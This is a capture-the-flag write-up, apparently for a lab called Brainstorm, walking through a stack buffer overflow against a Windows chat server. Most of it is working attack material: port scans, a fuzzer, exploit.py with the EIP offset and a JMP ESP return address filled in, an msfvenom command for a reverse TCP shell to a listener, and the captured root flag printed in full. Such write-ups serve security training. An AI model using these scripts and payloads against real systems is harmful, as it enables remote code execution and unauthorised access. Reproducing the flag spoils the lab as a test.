 # Brainstorm

> Reverse engineer a chat program and write a script to exploit a Windows machine.

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 -p- 10.10.16.64 -Pn`
	- `sudo nmap -T4 -A -p 21,9999 10.10.16.64 -Pn`
2. enumerate FTP:
	- anonymous login allowed
	- login: `ftp 10.10.16.64` -> "anonymous"
	- found "chatserver.exe" and "essfunc.dll"
	- download in binary mode to prevent corruption
		- `binary` -> `mget chaserver.exe` -> `mget essfunc.dll`
3. enumerate "abyss" service at TCP 9999:
	- connect with netcat: `nc -v 10.10.16.64 9999`
	- appears to be a chat app saying to enter a username (max 20 characters)
4. try to buffer overflow the downloaded app
	- find EIP offset:
		- open Windows 32-bit VM and transfer files across
		- open Immunity Debugger and run chatserver.exe
		- edit fuzzer.py script to include "user" before payload:
		```python
		#!/usr/bin/env python3
		import socket, time, sys

		ip = "10.0.1.6"
		port = 9999
		timeout = 5
		prefix = ""
		user = "user1 \r\n"								# EDITED

		string =  "A" * 100 + prefix 

		while True:
		  try:
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
			  s.settimeout(timeout)
			  s.connect((ip, port))
			  s.recv(1024)
			  print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
			  s.recv(1024)
			  s.send(bytes(user, "latin-1"))			# EDITED
			  s.send(bytes(string, "latin-1"))
			  s.recv(1024)
		  except:
			print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
			sys.exit(0)
		  string += 100 * "A"
		  time.sleep(1)
		 ```
		- run fuzzer.py -- crashed program at 2200 bytes
		- generate cyclic payload to determine offset: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2200`
		- edit exploit.py to included cyclic payload and user: 
		```python
		#!/usr/bin/env python3
		import socket

		ip = "10.0.1.6"
		port = 9999

		prefix = ""
		offset = 0
		overflow = "A" * offset
		retn = ""
		padding = ""
		user = "user1 \r\n"								# EDITED
		payload = "<cyclic_pattern>"
		postfix = ""

		buffer = prefix + overflow + retn + padding + payload + postfix

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
		  s.connect((ip, port))
		  print("Sending evil buffer...")
		  s.send(bytes(user, "latin-1"))				# EDITED
		  s.recv(1024)									# EDITED
		  s.send(bytes(buffer, "latin-1"))
		  print("Done!")
		except:
		  print("Could not connect.")
		```
		- restart Immunity with chat app and run exploit.py
		- when program crashes run (in Immunity): `!mona findmsp -distance 2200` to find EIP offset
		- EIP offset = 2012
	- find a jump point:
		- in Immunity: `!mona jmp -r esp -cpb \x00`
		- found: 625014DF (in essfunc.dll) with no protections
	- generate shellcode:
		- `msfvenom -p windows/shell_reverse_tcp LHOST=10.0.1.5 LPORT=1234 EXITFUNC=thread -b "\x00" -f c`
	- edit exploit.py:
	```python
	#!/usr/bin/env python3
	import socket

	ip = "10.0.1.6"
	port = 9999

	prefix = ""
	offset = 2012									# EDITED
	overflow = "A" * offset
	retn = "\xdf\x14\x50\x62"						# EDITED
	padding = "\x90" * 16							# EDITED
	user = "user1 \r\n"								 
	payload = "<msfvenom_payload>"					# EDITED
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
	  s.connect((ip, port))
	  print("Sending evil buffer...")
	  s.send(bytes(user, "latin-1"))				
	  s.recv(1024)									
	  s.send(bytes(buffer, "latin-1"))
	  print("Done!")
	except:
	  print("Could not connect.")
	```
	- setup listener (`nc -lvnp 1234`) and run exploit.py -- success
5. buffer overflow the real app:
	- edit exploit.py to inlude real IP address and a new msfvenom payload
	- setup listener (`nc -lvnp 1234`) and run exploit.py -- success
6. get root.txt flag:
	- `cd \users\drake\desktop` -> `type root.txt`
	- root flag = **5b1001de5a44eca47eee71e7942a8f8a**









